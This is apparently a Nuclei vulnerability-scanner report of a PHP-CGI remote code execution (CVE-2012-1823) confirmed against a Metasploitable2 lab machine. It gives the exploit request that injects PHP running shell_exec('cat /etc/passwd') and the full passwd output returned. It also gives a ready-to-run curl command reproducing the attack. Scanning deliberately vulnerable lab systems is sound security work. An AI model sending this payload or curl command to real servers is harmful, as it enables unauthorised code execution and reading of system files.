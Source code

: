 ### PHP CGI v5.3.12/5.4.2 Remote Code Execution (CVE-2012-1823) found on http://192.168.56.101/
---
**Details**: **CVE-2012-1823**  matched at http://192.168.56.101/

**Protocol**: HTTP

**Full URL**: http://192.168.56.101/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

**Timestamp**: Fri Jul 1 16:08:55 -0400 EDT 2022

**Template Information**

| Key | Value |
|---|---|
| Name | PHP CGI v5.3.12/5.4.2 Remote Code Execution |
| Authors | pikpikcu |
| Tags | rce, php, cve, cve2012, cisa |
| Severity | critical |
| Description | sapi/cgi/cgi_main.c in PHP before 5.3.12 and 5.4.x before 5.4.2, when configured as a CGI script (aka php-cgi), does not properly handle query strings that lack an = (equals sign) character, which allows remote attackers to execute arbitrary code by placing command-line options in the query string, related to lack of skipping a certain php_getopt for the 'd' case.
 |
| CVE-ID | [CVE-2012-1823](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823) |
| CVSS-Score | 0.00 |

**Request**
```http
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 44
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

<?php echo shell_exec("cat /etc/passwd"); ?>
```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 2472
Content-Type: text/html
Date: Fri, 01 Jul 2022 20:08:54 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
<html><head><title>Metasploitable2 - Linux</title></head><body>
<pre>

                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


</pre>
<ul>
<li><a href="/twiki/">TWiki</a></li>
<li><a href="/phpMyAdmin/">phpMyAdmin</a></li>
<li><a href="/mutillidae/">Mutillidae</a></li>
<li><a href="/dvwa/">DVWA</a></li>
<li><a href="/dav/">WebDAV</a></li>
</ul>
</body>
</html>


```

References: 
- https://github.com/vulhub/vulhub/tree/master/php/cve-2012-1823
- https://nvd.nist.gov/vuln/detail/cve-2012-1823
- https://bugs.php.net/bug.php?id=61910
- http://www.php.net/changelog-5.php#5.4.2

**CURL Command**
```
curl -X 'POST' -d '<?php echo shell_exec("cat /etc/passwd"); ?>' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Host: 192.168.56.101' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36' 'http://192.168.56.101/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input'
```
---
Generated by [Nuclei 2.7.3](https://github.com/projectdiscovery/nuclei)